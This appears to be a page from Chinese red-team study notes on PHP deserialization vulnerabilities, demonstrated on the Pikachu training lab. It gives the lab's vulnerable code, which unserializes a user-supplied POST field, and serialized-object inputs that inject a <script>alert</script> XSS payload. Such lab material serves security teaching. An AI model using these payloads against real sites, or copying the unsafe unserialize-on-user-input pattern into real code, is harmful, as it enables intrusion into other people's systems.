 
反序列化就是把被序列化的字符串还原为对象,然后在接下来的代码中继续使用。

使用unserialize()函数
```php
$u=unserialize("O:1:"S":1:{s:4:"test";s:2:"sd";}");
echo $u->test; //得到的结果为sd
```

序列化和反序列化本身没有问题,但是如果反序列化的内容是用户可以控制的,且后台不正当的使用了PHP中的魔法函数,就会导致安全问题

**案例**

以 pikachu 靶场为例

输入:
```
O:1:"S":1:{s:4:"test";s:2:"sd";}
# 显示 sd

O:1:"S":1:{s:4:"test";s:30:"<script>alert('test')</script>";}
# 显示 <script>alert('test')</script>
```

查看源码
```php
class S{
    var $test = "pikachu";
    function __construct(){
        echo $this->test;
    }
}

//O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
$html='';
if(isset($_POST['o'])){
    $s = $_POST['o'];
    if(!@$unser = unserialize($s)){
        $html.="<p>大兄弟,来点劲爆点儿的!</p>";
    }else{
        $html.="<p>{$unser->test}</p>";
    }

}
```

从源码可以看到反序列化的变量是 post 请求的, post 请求变量名为 o, 通过抓包发现我们输入框输入的值, 正好赋值给 Post 变量 o

![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/PHP反序列化/1.png)

